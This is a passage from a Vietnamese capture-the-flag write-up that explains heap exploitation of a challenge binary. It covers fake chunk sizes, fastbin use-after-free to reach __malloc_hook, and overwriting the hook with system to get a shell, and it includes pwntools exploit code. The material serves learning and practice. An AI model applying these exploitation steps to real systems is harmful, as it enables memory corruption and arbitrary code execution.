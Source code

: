 - có được leak libc rồi , ta sẽ set 2 size cho 2 chunk là stderr + 5 (0x404045 ) và fake chunk(0x4040a0) là  0x31 và 0x41

![image](https://github.com/gookoosss/CTF/assets/128712571/8ef0283c-8c24-4a39-82d1-505f371656d1)


![image](https://github.com/gookoosss/CTF/assets/128712571/87609edf-cfe5-4690-86ac-f63326656795)



```python 
# set size stderr+5 and fake chunk
ptr = 0x404058
sym_size = 0x404050
payload = b'\x31' + b'\x00'*18 + b'\0' * 8 + p64(exe.sym['stderr']) # set ptr == stderr
payload = payload.ljust(91, b'a')
payload += p64(0x41)
edit(payload)

# add stderr + 5 to fast bins 0x30
add(32, b'a'*8)
delete()
edit(p64(exe.sym['stdin'] + 5))
add(32, b'a' * 8)

# add fake chunk to fast bins 0x40
add(48, b'a'*8)
delete()
edit(p64(0x4040a0 - 0x10))
add(48, b'a'*8)
```

![image](https://github.com/gookoosss/CTF/assets/128712571/fae3a9c7-d539-4571-8e3a-b4b6554cecf4)



- chunk stderr + 5 dùng để thay đổi ptr, còn fake chunk dùng để gán /bin/sh\0 và thay đổi nextsize cho biến Size
- lúc này ta sẽ set presize cho Size là 0x71, nextsize là gì cũng được nên ta chọn 0x101, còn thg ptr ta sẽ gán Size vào để free(Size)

![image](https://github.com/gookoosss/CTF/assets/128712571/29650d5a-ef57-4559-8fb6-d106438e3666)


![image](https://github.com/gookoosss/CTF/assets/128712571/876823b4-0abc-43bc-9cc5-778bd566e0aa)


- sau khi free(size) xong thì ta tạo được được 1 chunk trong fastbins 0x70, sử dụng uaf để tạo chunk mallc_hook - 35 như phân tích ở trên 

![image](https://github.com/gookoosss/CTF/assets/128712571/44ebbf5a-098c-4ed0-93e5-7e947de7b1c3)


- sau đó ta overwrite malloc_hook thành system để get shell

```python 
# ow malloc_hook
edit(p64(libc.sym['__malloc_hook'] - 35))
add(size, b'a' * 8)
add(size, b'\0' * 19 + p64(libc.sym['system']))
```
- để set rdi là /bin/sh thì ta dùng cái fake chunk(0x4040a0) ta tạo ở trên và malloc size 0x4040a0
